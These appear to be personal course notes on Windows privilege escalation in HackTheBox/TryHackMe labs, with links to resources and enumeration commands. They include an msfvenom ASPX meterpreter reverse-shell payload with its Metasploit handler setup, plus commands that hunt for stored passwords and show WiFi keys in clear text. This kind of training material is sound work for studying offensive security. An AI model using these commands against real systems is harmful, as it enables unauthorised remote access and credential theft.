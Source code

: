 
## Introduction

### Course Introduction

> [!note] 
> Resources for this video:
TCM Security Website - https://tcm-sec.com/
The Cyber Mentor Website - https://www.thecybermentor.com/
The Cyber Mentor Twitter - https://twitter.com/thecybermentor
The Cyber Mentor Twitch - https://twitch.tv/thecybermentor
My LinkedIn: - https://linkedin.com/in/heathadams

![[Pasted image 20230409140356.png]]

![[Pasted image 20230409140441.png]]

![[Pasted image 20230409140543.png]]

![[Pasted image 20230409140801.png]]


### Course Discord (Important)

> [!note] 
> Resources for this video:
> Course Discord - [https://discord.gg/tcm](https://discord.gg/tcm) 


### Resources and Tips for Success

> [!note] 
> Resources for this video:
Fuzzy Security Guide - https://www.fuzzysecurity.com/tutorials/16.html
PayloadsAllTheThings Guide - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
Absolomb Windows Privilege Escalation Guide - https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
Sushant 747's Guide (Country dependant - may need VPN) - https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


### Course Repo

> [!note] 
>  Welcome to the course. I truly hope you enjoy it and learn from it!
>  
>  Please see the attached link for a list of all resources used in the course. A very special thanks goes to Grimmie for putting this together! <3
>  
>  [https://github.com/Gr1mmie/Windows-Priviledge-Escalation-Resources](https://github.com/Gr1mmie/Windows-Priviledge-Escalation-Resources)
>  
>  Thank you!
>  
>  Heath


## Gaining a Foothold

### Introduction

> [!info] 
> To avoid Windows Licence cost's, this course is mostly based on HackTheBox / TryHackMe
> 

![[Pasted image 20230409142334.png]]

### Gaining a Foothold (Box 1)

Open HTTP and FTP Service:

FTP Server allow `anonymous` and as password `*anything*` Login.

> [!todo] 
> Create meterpreter web reverse shell
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.87 LPORT=9001 -f aspx > shell.aspx`
> 

> [!todo] 
> run `msfconsole`
> `use exploit/multi/handler` 
> `show options`
> `set lhost tun0`
> `set lport 9001`
> `set payload windows/meterpreter/reverse_tcp`
> `run`

> [!todo] 
>  Open URL with `shell.aspx` on server.
>  Now we got `meterpreter` shell!
>  `getuid`
>  `sysinfo`

![[Pasted image 20230420150019.png]]

## Initial Enumeration

> [!todo] 
> In `meterpreter` shell:
> `shell`
> `systeminfo`
> `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
> `hostname`

![[Pasted image 20230420153212.png]]

> [!todo] 
> See when patches where installed:
> `wmic qfe` 
> `wmic qfe get Caption,Description,HotFixID,InstalledOn`

![[Pasted image 20230420153611.png]]

> [!todo] 
> Show connected volumes:
>  `wmic logicaldisk`
>  `wmic logicaldisk get caption,description,providername`
>  `wmic logicaldisk get caption`

![[Pasted image 20230420154022.png]]

![[Pasted image 20230420154133.png]]


### User Enumeration

> [!todo] 
> `whomai`
>  `whoami /priv`
>  `whoami /groups`

![[Pasted image 20230420155409.png]]

> [!todo] 
> `net user` 
> `net user <username>`
> `net localgroup`

![[Pasted image 20230420160933.png]]

> [!todo] 
>  `net localgroup administrators`

![[Pasted image 20230420161129.png]]


### Network Enumeration

> [!todo] 
>  `ipconfig /all` -> Under DNS, maybe we can see Domain Controller IP
>  `arp -a`

![[Pasted image 20230420164424.png]]

> [!todo] 
>  `route print`

![[Pasted image 20230420164812.png]]

> [!todo] 
>  `netstat -ano`

![[Pasted image 20230420165012.png]]


### Password Hunting

> [!note] 
> More Infos and Tips:
>  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#search-for-file-contents

> [!todo] 
>`findstr /si password *.txt` > Search in current and subdirectory
>`findstr /si password *.txt *.ini *.config`

> [!todo] 
> Wlan Password 
> `netsh wlan show profile`
> `netsh wlan show profile <SSID> key=clear`


### AV Enumeration

> [!todo] 
> Windows Defender:
> `sc query windefend` 

![[Pasted image 20230420171557.png]]

> [!todo] 
> Find other running Antivirus Software:
> Query running services:
> `sc queryex type= service` 

> [!todo] 
> Check Firewall Configuration:
>  `netsh advfirewall firewall dump`
>  If this is not returning anything, use:
>  `netsh firewall show state`

![[Pasted image 20230420172255.png]]

> [!todo] 
> `netsh firewall show config` 

![[Pasted image 20230420172448.png]]

## Exploring Automated Tools

### Automated Tool Overview

> [!note] 
>  Resources for this video:
>  - WinPEAS - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
>  - Windows PrivEsc Checklist - https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
>  - Sherlock - https://github.com/rasta-mouse/Sherlock
>  - Watson - https://github.com/rasta-mouse/Watson
>  - PowerUp - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
>  - JAWS - https://github.com/411Hall/JAWS
>  - Windows Exploit Suggester - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
>  - Metasploit Local Exploit Suggester - https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
>  - Seatbelt - https://github.com/GhostPack/Seatbelt
>  - SharpUp - https://github.com/GhostPack/SharpUp

![[Pasted image 20230420172800.png]]

